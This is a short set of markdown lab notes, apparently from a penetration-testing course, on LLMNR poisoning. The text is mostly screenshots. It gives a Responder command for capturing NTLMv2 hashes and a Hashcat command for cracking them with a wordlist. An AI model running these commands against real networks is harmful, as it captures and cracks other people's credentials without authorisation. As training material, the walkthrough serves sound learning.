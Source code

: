 ## LLMNR Poisoning - Capturing NTLMv2 Hashes
```bash
ifconfig 
sudo responder -I eth0
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-1.png"> 




</br>

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-2.png"> 






## Trigger an LLMNR Event

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-3.png"> 

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-4.png"> 


## Dumping NTLMv2 Hashes

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-5.png"> 


## Save Hash to a file

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-6.png"> 

## Use Hashcat to crack the hash 
```bash
 hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-7.png"> 

## Use John to crack the hash 
<img src="https://github.com/Nisha318/Nisha318.github.io/blob/master/assets/images/tcm-academy/llmnr-capture-ntlmv2hash-8.png"> 
